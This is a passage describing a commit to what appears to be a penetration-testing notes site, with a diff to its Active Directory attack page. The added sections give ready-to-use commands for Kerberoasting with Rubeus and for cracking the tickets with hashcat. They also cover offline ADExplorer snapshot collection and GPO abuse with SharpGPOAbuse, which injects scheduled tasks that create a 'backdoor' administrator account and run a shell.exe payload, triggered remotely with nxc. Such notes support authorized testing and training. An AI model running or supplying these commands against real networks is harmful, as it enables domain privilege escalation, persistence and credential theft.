

Before and after one commit to v0idravl/hakiki, a Jekyll site: the page built from active_directory/ad_main.md, in a window 1280 px wide and 1400 px high, scrolled down 7253 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; our own code applies the rules of GitHub Pages for plain Markdown files; before the commit the page ends 7883 px from its top, so only the background shows below that; some of the changed text lies outside the part shown.

Commit message:
ad: add GPO abuse, ADExplorer snapshot, DFSCoerce/ShadowCoerce coercion methods, AES Kerberoasting
- GPO abuse: SharpGPOAbuse computer/user task injection, gpupdate force trigger
- ADExplorer offline snapshot: snapshot creation + ADExplorerSnapshot.py conversion workflow
- Coercion: added DFSCoerce (MS-DFSNM) and ShadowCoerce (MS-FSRVP) as fallbacks when EFSRPC/RPRN patched; method comparison table
- Kerberoasting: added Rubeus /aes flag for AES-only accounts
- Coercer as preferred first-choice tool (replaces PetitPotam as primary recommendation)

````diff
--- a/active_directory/ad_main.md
+++ b/active_directory/ad_main.md
@@ -199,6 +199,17 @@
 - Find Kerberoastable Users (High Value)
 - Find AS-REP Roastable Users
 
+### ADExplorer offline snapshot
+
+Low-noise alternative to SharpHound — takes a snapshot as any domain user, analyze offline.
+
+```
+# On Windows host: ADExplorer.exe → File → Create Snapshot → save .dat file
+# Transfer .dat to LHOST, convert to BloodHound format:
+ADExplorerSnapshot.py snapshot.dat -o output/
+# Import output/ JSON files into BloodHound normally
+```
+
 ### Kerberoasting
 
 Requests TGS tickets for service accounts (SPNs) — encrypted with service account's NTLM hash.
@@ -210,6 +221,10 @@
 # Crack
 hashcat -m 13100 kerberoast.txt /usr/share/wordlists/rockyou.txt
 hashcat -m 13100 kerberoast.txt /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule
+
+# Rubeus — AES-only accounts (harder to crack but worth collecting)
+.\Rubeus.exe kerberoast /outfile:krb.txt /nowrap
+.\Rubeus.exe kerberoast /aes /outfile:krb_aes.txt /nowrap
 ```
 
 > Service accounts often have weak passwords and may have over-privileged access.
@@ -344,6 +359,38 @@
 
 ---
 
+## GPO Abuse
+
+If BloodHound shows `GenericWrite` or `WriteProperty` on a GPO object, inject a scheduled task via that GPO.
+
+```bash
+# Identify writable GPOs (from BloodHound: "Outbound Object Control" on a GPO node)
+# Tool: SharpGPOAbuse
+
+# Add a computer-level immediate task running as SYSTEM
+.\SharpGPOAbuse.exe --AddComputerTask \
+  --TaskName "WindowsUpdate" \
+  --Author "NT AUTHORITY\SYSTEM" \
+  --Command "cmd.exe" \
+  --Arguments "/c net user backdoor Password123! /add && net localgroup administrators backdoor /add" \
+  --GPOName "Default Domain Policy"
+
+# Add a user-level task (runs as logged-on user)
+.\SharpGPOAbuse.exe --AddUserTask \
+  --TaskName "UserUpdate" \
+  --Author "DOMAIN\user" \
+  --Command "cmd.exe" \
+  --Arguments "/c C:\Windows\Temp\shell.exe" \
+  --GPOName "Default Domain Controllers Policy"
+
+# Force GPO refresh on target (triggers immediate task execution)
+nxc smb $TARGET_IP -u user -p 'password' -x "gpupdate /force"
+```
+
+> GPO changes apply when: (1) target runs `gpupdate /force`, (2) periodic background refresh (90-120 min), (3) machine reboots.
+
+---
+
 ## Quick Wins Checklist
 
 - [ ] Anonymous LDAP / null SMB → users, descriptions with passwords
````
Also changed, not shown: active_directory/adcs.md (+19 -5 lines).
